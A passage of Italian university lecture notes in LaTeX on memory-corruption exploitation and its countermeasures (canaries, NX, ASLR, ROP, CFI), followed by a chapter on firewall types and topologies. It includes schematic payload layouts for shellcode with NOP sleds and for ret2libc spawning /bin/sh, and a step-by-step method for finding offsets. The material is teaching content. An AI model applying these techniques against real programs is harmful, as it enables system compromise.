I primi 10 byte riempiono il buffer, i successivi 4 scavalcano EBP, gli ultimi 4 (in ordine \textbf{little-endian}, tipico di IA32) sovrascrivono l'indirizzo di ritorno con quello di \texttt{valid\_code}. Quando \texttt{validate} esegue \texttt{RET}, il controllo salta direttamente a \texttt{valid\_code}.

\subsection{Caso con buffer multipli sullo stack}
Lo stack overflow funziona anche con buffer multipli. In una funzione con due buffer \texttt{src} e \texttt{dest}, un overflow su \texttt{src} può sovrascrivere l'indirizzo di ritorno della \texttt{strcpy} invocata per copiarlo in \texttt{dest}, ottenendo lo stesso effetto di dirottamento.

\noindent\rule{\textwidth}{0.4pt}

\section{Contromisura: Canarini}

I \textbf{canarini} (stack canaries) sono la prima contromisura allo stack overflow. Il nome richiama i canarini usati storicamente dai minatori per rilevare fughe di gas. Il meccanismo consiste nel porre sullo stack, immediatamente prima delle variabili locali (e quindi prima del buffer), un valore casuale di 4 byte generato a ogni chiamata di funzione. Prima di eseguire \texttt{RET}, il chiamato verifica che tale valore sia intatto: se è stato sovrascritto (segno di un overflow), il processo viene terminato.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 41.png}
\end{figure}

Questa protezione non è fornita dall'OS né dall'hardware, ma è implementata congiuntamente dal compilatore e dalla libreria standard, con un certo overhead. In GCC si attiva con i flag \texttt{-fstack-protector} (solo per buffer di stringhe) o \texttt{-fstack-protector-all} (per tutti i tipi di buffer); il parametro \texttt{--param ssp-buffer-size=} permette di impostare una soglia di dimensione sotto la quale la protezione non viene attivata, limitando l'overhead.

Il meccanismo non è impenetrabile: è vulnerabile a brute force su processi che effettuano \texttt{fork()}, poiché il figlio eredita il canarino identico dal padre. Attaccando iterativamente i processi figli è possibile indovinare il valore byte per byte, senza che il padre rigeneri il canarino.

\noindent\rule{\textwidth}{0.4pt}

\section{Shellcoding}

Lo \textbf{shellcoding} non è un attacco alternativo allo stack overflow, ma una tecnica per sfruttarlo. Consiste nell'iniettare tramite overflow: (1) codice maligno in linguaggio macchina e (2) un indirizzo di ritorno che punti all'inizio di tale codice. L'obiettivo tipico è aprire una shell con i privilegi del processo attaccato (solitamente root o un processo con il bit setuid attivato).

\subsection{Costruzione dello shellcode e zeros cut-off}
Un esempio minimale è l'invocazione della syscall \texttt{exit(0)}:

\begin{lstlisting}[language={[x86masm]Assembler}]
	; Versione naive -- contiene byte nulli, NON iniettabile come stringa
	mov EBX, 0    ; BB 00 00 00 00
	mov EAX, 1    ; B8 01 00 00 00
	int 0x80      ; CD 80
\end{lstlisting}

I byte \texttt{0x00} vengono interpretati come terminatori di stringa dalle routine di lettura e interrompono l'iniezione. Lo shellcode deve essere sottoposto a una \textbf{zeros cut-off}, sostituendo le istruzioni con equivalenti funzionali privi di byte nulli:

\begin{lstlisting}[language={[x86masm]Assembler}]
	; Versione iniettabile -- nessun byte nullo
	xor EBX, EBX  ; 31 DB  (EBX = 0 senza usare costanti con zero)
	mov AL, 1     ; B0 01  (scrive solo negli 8 bit bassi di EAX)
	int 0x80      ; CD 80
\end{lstlisting}

Le syscall su IA32 Linux richiedono di caricare l'identificativo numerico in \texttt{EAX} e i parametri in \texttt{EBX}, \texttt{ECX}, \texttt{EDX}, \texttt{ESI}, \texttt{EDI} nell'ordine, poi invocare l'interrupt software \texttt{int 0x80}.

\subsection{Il problema dell'indirizzo e il NOP Sled}
Dopo aver preparato il codice, il problema principale è determinare l'indirizzo esatto a cui si troverà il codice iniettato durante l'esecuzione, poiché lo stack evolve dinamicamente a ogni run. La soluzione pratica è il \textbf{NOP Sled}: una lunga sequenza di istruzioni \texttt{NOP} (opcode \texttt{0x90}, che non fanno nulla) che precede lo shellcode. È sufficiente che l'indirizzo di ritorno cada in un punto qualsiasi del NOP Sled, che funge da "slitta" verso il codice maligno, aumentando notevolmente il margine di errore:

\begin{lstlisting}
	"\x90\x90\x90\x90...\x31\xDB\xB0\x01\xCD\x80" + BBBB + \xGUESS
\end{lstlisting}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 42.png}
\end{figure}

\noindent\rule{\textwidth}{0.4pt}

\section{Contromisura: NX Stack}

Gli \textbf{stack non eseguibili} (NX Stack) impediscono l'esecuzione di codice iniettato sullo stack. È una feature hardware che deve essere supportata dall'OS: alcune architetture permettono di associare a ogni pagina di memoria un flag che indica se il suo contenuto può essere eseguito. Intel commercializza questa feature come \textbf{XD bit} (eXecution Disable), presente solo a partire dai processori a 64 bit.

Linux supporta gli stack non eseguibili a partire dal kernel 2.6.8 per architettura x86\_64, grazie alla patch PAX/grsecurity. Un'evoluzione è la politica \textbf{W\^{}X} (Write XOR Execute): ogni pagina è marcata come eseguibile \textit{oppure} scrivibile, ma non entrambe, offrendo una protezione maggiore rispetto al solo XD bit. In Linux è implementata parzialmente da ExecShield.

\noindent\rule{\textwidth}{0.4pt}

\section{Superare NX Stack: RET2LIBC e RET2SYSCALL}

\subsection{RET2LIBC}
\textbf{RET2LIBC} aggira NX Stack non iniettando codice, ma riutilizzando codice già presente in memoria: le funzioni della libreria C standard. Tramite stack overflow si iniettano solo dati (indirizzi e parametri), costruendo lo stack in modo che il ritorno dalla funzione vulnerabile salti direttamente a una funzione di libreria.

Esempio: eseguire \texttt{system("/bin/sh")}. I passi sono trovare l'indirizzo della funzione \texttt{system}, individuare o costruire la stringa \texttt{"/bin/sh"} in memoria, e comporre lo stack in modo che alla \texttt{RET} l'ESP punti alla cella contenente l'indirizzo di \texttt{system} e che questa trovi il puntatore alla stringa come parametro atteso. È possibile concatenare più chiamate posizionando strategicamente più indirizzi sullo stack (ad esempio chiamare \texttt{exit} dopo \texttt{system} per una terminazione pulita e non anomala).

\subsection{RET2SYSCALL}
\textbf{RET2SYSCALL} applica la stessa idea invocando direttamente una system call anziché una funzione di libreria. Il meccanismo richiede di caricare l'identificatore della syscall in \texttt{EAX} e i parametri nei registri, poi invocare \texttt{INT 0x80}. Poiché sequenze del tipo \texttt{POP <registro>; RET} sono frequentissime in qualsiasi binario, esistono sicuramente frammenti di codice in \texttt{.text} che le eseguono. Il segmento \texttt{.text} non è soggetto ad ASLR, quindi gli indirizzi sono prevedibili e lo stack può essere composto per concatenarne l'invocazione:

\begin{lstlisting}
	[ Buffer padding          ]
	[ &(gadget: POP ECX; RET) ]  <- sovrascrive il return address
	[ valore per ECX          ]
	[ &(gadget: POP EAX; RET) ]
	[ valore per EAX          ]
	[ &(gadget: POP EBX; RET) ]
	[ valore per EBX          ]
	[ &(INT 0x80)             ]
\end{lstlisting}

\subsection{Altre tecniche di bypass di NX Stack}
Oltre a RET2LIBC e RET2SYSCALL, esistono altre due tecniche per aggirare gli stack non eseguibili:
\begin{itemize}
	\item \textbf{Format Strings:} Tramite la manipolazione di una stringa di formato passata a funzioni vulnerabili (come \texttt{printf} senza parametri specificati), si inietta codice e si forza un salto per eseguirlo.
	\item \textbf{Heap Overflow:} Si sfruttano vulnerabilità specifiche relative ai metadati inseriti dalle librerie standard del C per la gestione e l'allocazione dinamica della memoria (es. funzioni come \texttt{malloc} e \texttt{free}).
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}

\section{Contromisura: ASLR}

L'\textbf{ASLR} (Address Space Layout Randomization) è una protezione offerta dall'OS che rende casuale l'indirizzo di partenza di alcuni segmenti del processo: in particolare l'indirizzo delle librerie, la base dello stack e la base dell'heap. In questo modo l'attaccante non può determinare a priori un indirizzo assoluto plausibile a cui puntare. Si noti che \texttt{.text} non è incluso nella randomizzazione nella configurazione base, il che lascia aperta la porta a RET2SYSCALL e ROP.

\noindent\rule{\textwidth}{0.4pt}

\section{Return-Oriented Programming (ROP)}

Il \textbf{Return-Oriented Programming} generalizza il principio di RET2SYSCALL. Si cercano nel segmento \texttt{.text} (non soggetto ad ASLR) brevi sequenze di istruzioni che terminano con \texttt{RET}, chiamate \textbf{gadget}. Sfruttando l'arbitrarietà dell'allineamento delle istruzioni x86, è possibile trovare gadget anche all'interno di sequenze di byte appartenenti ad altre istruzioni. Lo stack viene riempito con una sequenza alternata di indirizzi di gadget e dei relativi parametri: ogni gadget esegue poche operazioni, poi la \texttt{RET} preleva dallo stack l'indirizzo del gadget successivo, creando una catena di esecuzione arbitraria senza iniettare codice.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 43.png}
\end{figure}

Il meccanismo è Turing-completo: è possibile comporre sequenze di gadget sufficientemente espressive da eseguire operazioni arbitrarie. Nell'esempio delle slide: un primo gadget carica un valore in \texttt{EDI} (indirizzo destinazione), un secondo gadget carica un valore in \texttt{ESI} (indirizzo sorgente), un terzo gadget esegue la copia. Il risultato è la copia di dati da un indirizzo a un altro, il tutto senza iniettare una sola istruzione.

\noindent\rule{\textwidth}{0.4pt}

\section{Panoramica delle contromisure e loro limitazioni}

Le contromisure viste interagiscono tra loro e presentano limitazioni reciproche. NX Stack e W\^{}X risultano quasi inutili di fronte a RET2LIBC e ROP, che fanno uso ``legittimo'' dello stack come area dati. L'ASLR nella sua forma base non copre \texttt{.text}, è vulnerabile al brute forcing degli indirizzi (più difficile su 64 bit) e può essere aggirata riutilizzando puntatori a funzione già presenti nel codice. La sua estensione naturale è \textbf{PIE} (Position Independent Executable), che randomizza anche \texttt{.text}, ma richiede una doppia indirezione tramite le tabelle \textbf{PLT} e \textbf{GOT}, le quali a loro volta possono essere sovrascritte per dirottare le invocazioni (mitigato dall'hardening \textbf{RelRO}). I canarini rallentano l'esecuzione e sono aggirabili con il brute force su processi che effettuano \texttt{fork}.

\noindent\rule{\textwidth}{0.4pt}

\section{Control Flow Integrity}

La \textbf{CFI} (Control Flow Integrity) è la generalizzazione di tutte le contromisure precedenti: una famiglia di tecniche che mira a eliminare lo sfruttamento degli errori di memoria garantendo che l'instruction pointer di un processo in esecuzione non possa essere controllato da un attaccante malevolo. Ne esistono almeno 14 implementazioni note.

Un approccio rilevante è il supporto hardware per \textbf{puntatori cifrati}: il processo sceglie una chiave di cifratura all'avvio e istruisce la CPU a cifrare e decifrare trasparentemente tutti gli indirizzi di ingresso e ritorno dalle funzioni. Un programma vulnerabile può subire al massimo un DoS, ma non può essere dirottato. Un esempio concreto sono i \textbf{Pointer Authentication Codes} (PAC) sui processori Apple con chip A12 e successivi.

\subsection{La Pratica della Binary Exploitation (Teoria)}
Sfruttare una vulnerabilità di memory corruption (come il Buffer Overflow) richiede di applicare i concetti teorici dell'architettura IA32 per prendere il controllo dell'EIP (Instruction Pointer) e dirottare il flusso di esecuzione.

\begin{itemize}
	\item \textbf{Metodologia di calcolo dell'Offset}: L'offset è la distanza in byte tra l'inizio del buffer vulnerabile e l'indirizzo di ritorno salvato sullo stack. Poiché i compilatori possono inserire byte di \textit{padding} per allineamento della memoria, la dimensione nominale del buffer (es. \texttt{char buf[1]}) non coincide quasi mai con l'offset esatto. Il calcolo si effettua empiricamente tramite \textbf{bisezione}:
	\begin{enumerate}
		\item Si inviano input di lunghezza crescente finché il processo non va in \textit{Segmentation Fault} (SIGSEGV).
		\item Tramite un debugger (es. GDB) si analizza lo stato dei registri al momento del crash.
		\item Se l'EIP è stato sovrascritto con il pattern iniettato (es. \texttt{0x41414141}, ovvero "AAAA"), si raffina la stringa sostituendo gli ultimi byte (es. "BBBB") per confermare l'esatta posizione del Return Address.
	\end{enumerate}
	
	\item \textbf{Costruzione del Payload: Shellcoding}: Se le protezioni (NX, ASLR, Canarini) sono disabilitate, l'attaccante può iniettare il proprio codice macchina (lo \textit{shellcode}). La struttura standard di un payload per shellcoding è:\\
	\texttt{[ Padding per riempire il buffer ] + [ NOP Sled ] + [ Shellcode ] + [ Indirizzo di Ritorno sovrascritto ]}
	\begin{itemize}
		\item \textbf{NOP Sled (Slitta di NOP):} Calcolare al singolo byte l'indirizzo di partenza dello shellcode è difficile a causa dell'evoluzione dinamica dello stack. Si inserisce quindi una sequenza di istruzioni \texttt{NOP} (opcode \texttt{0x90}) prima del codice malevolo. La CPU eseguirà le istruzioni vuote "scivolando" inesorabilmente fino ad avviare lo shellcode.
		\item \textbf{Zeros Cut-off:} Le funzioni vulnerabili come \texttt{strcpy} o \texttt{gets} interrompono la lettura quando incontrano un "Null byte" (\texttt{\textbackslash x00}). Uno shellcode, per essere iniettabile, non deve contenere byte nulli.
	\end{itemize}
	
	\item \textbf{Costruzione del Payload: Return-to-Libc (Ret2Libc)}: Se la memoria è protetta da \textbf{NX Stack}, l'iniezione di shellcode fallisce. L'attaccante ricorre al \textit{Ret2Libc}, riutilizzando funzioni già mappate in memoria (come \texttt{system()}). Il payload falsifica un intero \textit{Stack Frame} valido:\\
	\texttt{[ Padding ] + [ Indirizzo di system() ] + [ Indirizzo di Ritorno fittizio ] + [ Puntatore all'argomento ("/bin/sh") ]}
	
	\item \textbf{Regola dell'Endianness}: L'architettura Intel IA32 utilizza la rappresentazione in memoria \textbf{Little-Endian}. Tutti gli indirizzi di memoria inseriti nel payload devono essere iniettati invertendo l'ordine dei byte (es. l'indirizzo \texttt{0x0804D432} va iniettato come \texttt{\textbackslash x32\textbackslash xD4\textbackslash x04\textbackslash x08}).
\end{itemize}

\chapter{Firewall}

\section{Cos'è un firewall}

Il termine ``firewall'' deriva dall'inglese ``muro tagliafuoco'': in rete indica un dispositivo (o un'architettura di dispositivi) il cui scopo è limitare la propagazione di fenomeni indesiderati tra due o più zone di rete. Un'immagine più precisa è quella di una \textbf{cinta muraria con una porta}: divide il ``dentro'' dal ``fuori'' e impone che tutto il traffico passi obbligatoriamente per un unico punto, dove è possibile applicare politiche di controllo centralizzate senza doverle replicare su ogni sistema.

Il firewall agisce sia in ingresso che in uscita. L'\textbf{INGRESS filtering} blocca l'accesso di malintenzionati dall'esterno; l'\textbf{EGRESS filtering} è altrettanto importante perché impedisce l'esfiltrazione di dati riservati e scongiura che i sistemi interni vengano usati come base di lancio per attaccare terzi.

\subsection{Principi fondamentali}
Il firewall è prima di tutto un'\textbf{architettura}, composta da uno o più componenti hardware o software. Perché sia efficace devono valere quattro condizioni:
\begin{itemize}
	\item Deve essere un \textbf{punto di passaggio obbligato}: non esistono strade alternative per accedere alla rete protetta.
	\item Segue il principio del \textbf{default deny}: passa solo ciò che è esplicitamente autorizzato.
	\item Deve essere \textbf{robusto}: è un sistema dedicato nel quale si accetta di sacrificare flessibilità e praticità per ridurre al minimo la superficie di attacco.
\end{itemize}

\subsection{Tecniche di controllo}
Le dimensioni lungo le quali un firewall può operare sono quattro. Può filtrare il \textbf{traffico} esaminando indirizzi, porte e altri campi degli header. Può distinguere la \textbf{direzione} logica di una connessione, ovvero chi ha preso l'iniziativa, indipendentemente dal fatto che i pacchetti siano fisicamente bidirezionali. Può gestire gli \textbf{utenti}, sebbene il protocollo TCP/IP non trasporti identità utente negli header, il che rende questo controllo complesso. Infine può analizzare il \textbf{comportamento}, rilevando anomalie rispetto a parametri di normalità del traffico ammesso.

\noindent\rule{\textwidth}{0.4pt}

\section{Tipi di firewall}

Esistono tre tipi fondamentali: \textbf{packet filter}, \textbf{application-level gateway} e \textbf{circuit-level gateway}. A questi si aggiungono due collocazioni particolari — il bastion host e il personal firewall — che non costituiscono tipi distinti ma descrivono il ruolo architetturale del componente.

\subsection{Packet Filter (PF)}
Il packet filter esamina esclusivamente l'header di ogni pacchetto: può ispezionare il MAC address, gli indirizzi IP sorgente/destinazione, il protocollo di trasporto (TCP, UDP, ICMP, \dots), i TCP flags e le porte. Non ha accesso al payload.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 44.png}
\end{figure}

Il PF applica in sequenza una lista di regole del tipo "se \textit{condizione} allora \textit{azione}". La prima regola il cui match ha successo determina il destino del pacchetto e interrompe la scansione. Le azioni di base sono scartare o inoltrare il pacchetto; azioni aggiuntive comuni includono il logging e la modifica di alcuni campi. Se nessuna regola viene attivata, si applica una \textbf{politica di default}. Le regole sono tipicamente organizzate in più liste distinte (es. ingress vs. egress).

\textbf{Vantaggi:} è semplice, veloce, implementato nativamente in quasi tutti i router, e trasparente agli utenti — non richiede alcuna riconfigurazione dei sistemi attraversati.

\textbf{Svantaggi:} le regole operano a basso livello; comportamenti complessi richiedono set di regole molto elaborati. Non supporta la gestione degli utenti, poiché nelle intestazioni non compaiono identità.

\subsection{Vulnerabilità: frammentazione}
Il meccanismo di frammentazione IP è una delle debolezze classiche del PF. Solo il primo frammento contiene l'header di trasporto (porte, TCP flags): i frammenti successivi possono quindi aggirare le regole che controllano quei campi. Esistono anche numerosi attacchi basati su vulnerabilità dei riassemblatori. La soluzione più drastica è scartare tutti i pacchetti frammentati; la soluzione corretta — riassemblare i frammenti sul firewall prima di ispezionarli — non è implementabile su un PF puro.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 45.png}
\end{figure}

\subsection{Vulnerabilità: spoofing}
Un attaccante può falsificare l'indirizzo sorgente dei propri pacchetti. Le contromisure consistono in controlli di coerenza: bloccare pacchetti provenienti dall'esterno con indirizzi sorgente appartenenti alla rete interna (e viceversa), e scartare pacchetti con indirizzi sorgente illegali — tra cui gli indirizzi di loopback \texttt{127.0.0.0/8}, gli indirizzi riservati RFC 1918 (\texttt{10.0.0.0/8}, \texttt{172.16.0.0/12}, \texttt{192.168.0.0/16}), l'indirizzo broadcast \texttt{255.255.255.255}, e il blocco \texttt{0.0.0.0/8}.

\subsection{Limitazioni strutturali}
Il PF è fondamentalmente \textbf{stateless}: decide il destino di ogni pacchetto indipendentemente da quelli precedenti. Non offre alcuna protezione contro gli attacchi \textit{data-driven}, ovvero attacchi che viaggiano nel payload (es. SQL injection, malware). Non può gestire protocolli che negoziano dinamicamente le connessioni: il caso paradigmatico è FTP, dove la porta del canale dati viene comunicata nel payload del canale di controllo e dunque non è ispezionabile dal PF.

Un'evoluzione importante è il \textbf{PF stateful}, che mantiene traccia delle connessioni già stabilite e può quindi riconoscere un pacchetto come parte di un flusso esistente — particolarmente utile per i protocolli senza connessione come UDP. L'evoluzione successiva, il \textbf{multilayer protocol inspection firewall}, traccia l'intera storia della connessione per verificare la coerenza del protocollo anche oltre il livello di trasporto.

\subsection{Application-Level Gateway (ALG)}
L'ALG, detto anche \textbf{proxy server}, agisce da \textit{man-in-the-middle} benevolo: si presenta come server nei confronti del client e come client nei confronti del server reale, esaminando e facendo transitare il traffico applicativo.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 46.png}
\end{figure}

Grazie alla comprensione del protocollo applicativo, l'ALG può permettere o vietare specifici comandi, verificare la correttezza degli scambi protocollari e attivare dinamicamente regole sulla base della negoziazione client-server. Può essere integrato con sistemi esterni come antispam/antivirus per la posta o antimalware per il web, e produce log applicativi molto dettagliati.

Lo svantaggio principale è il costo computazionale, molto più elevato rispetto a un PF. Inoltre ogni ALG è specifico per un singolo protocollo applicativo e può richiedere la riconfigurazione dei client — non è sempre trasparente.

\subsection{Circuit-Level Gateway (CLG)}
Il CLG spezza la connessione a livello di trasporto: diventa l'endpoint effettivo di entrambi i lati della comunicazione e inoltra il payload senza esaminarlo.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 47.png}
\end{figure}

Il suo utilizzo tipico è controllare quali connessioni originate dall'interno verso l'esterno sono ammissibili. Può operare in modo trasparente agli utenti, autorizzando automaticamente le connessioni da host considerati fidati, e non richiede di predefinire i protocolli applicativi gestiti. Può essere combinato con le applicazioni per applicare politiche differenziate per utente.

Il limite principale è che il filtraggio rimane ristretto a indirizzi, porte e identità utente. Richiede inoltre la modifica dello stack di rete dei client o la configurazione esplicita delle applicazioni.

\subsection{Bastion Host e Personal Firewall}
Un \textbf{bastion host} è un sistema dedicato esclusivamente all'esecuzione di un software firewall, tipicamente per realizzare un ALG o un CLG. Essendo un sistema esposto, viene indurito al massimo: si rinuncia a qualsiasi funzionalità non necessaria per minimizzare la superficie di attacco.

Il \textbf{personal firewall} costituisce un'eccezione al principio del controllo centralizzato alla frontiera: viene installato direttamente sulle singole macchine. Il vantaggio è la possibilità di correlare ogni pacchetto con l'applicazione che lo ha generato, consentendo un controllo molto preciso. Lo svantaggio è la perdita della centralizzazione della configurazione e la tendenza, quando configurati in modalità "learning", a generare troppi avvisi che vengono poi ignorati dagli utenti.

\noindent\rule{\textwidth}{0.4pt}

\section{Topologie di filtraggio}

La configurazione più semplice prevede un singolo firewall tra rete esterna e rete interna. Questa topologia non è però adeguata quando nella rete coesistono \textbf{client} — che devono essere completamente schermati dall'esterno e non hanno necessità di essere raggiungibili — e \textbf{server} — che devono ricevere selettivamente traffico dall'esterno ma, se compromessi, non devono poter attaccare i client interni. La soluzione è usare più dispositivi per creare zone di rete con livelli di protezione differenziati.

\subsection{Screened single-homed BH}
Un PF garantisce che solo il bastion host possa comunicare con l'esterno; il BH implementa un ALG (eventualmente con autenticazione). Il risultato è un doppio strato di filtraggio: a livello di header nel PF, e a livello applicativo nel BH. Per compromettere completamente la rete interna un attaccante deve violare due sistemi separati; tuttavia, compromettere solo il PF può già garantire un accesso significativo.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 48.png}
\end{figure}

\subsection{Screened dual-homed BH}
Variante della precedente in cui il bastion host ha due interfacce di rete separate e separa fisicamente i due segmenti. Si crea così una zona intermedia chiamata \textbf{DMZ} (zona demilitarizzata) dove vengono collocati i server pubblici. In questo modo la compromissione del solo PF non è sufficiente a raggiungere la rete interna. Il limite è che tutto il traffico dei client deve transitare attraverso il BH, anche quello innocuo.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 49.png}
\end{figure}

\subsection{Screened subnet}
Due PF router in cascata rafforzano la separazione: il PF esterno filtra il traffico verso la DMZ, il PF interno separa la DMZ dalla rete privata. Questa topologia nasconde completamente all'esterno l'esistenza della subnet privata (ostacolando l'enumerazione) e, simmetricamente, nasconde l'esistenza di Internet alla rete interna. I router possono smistare traffico "banale" direttamente, senza farlo passare dal BH.

\begin{figure}[H]
	\centering
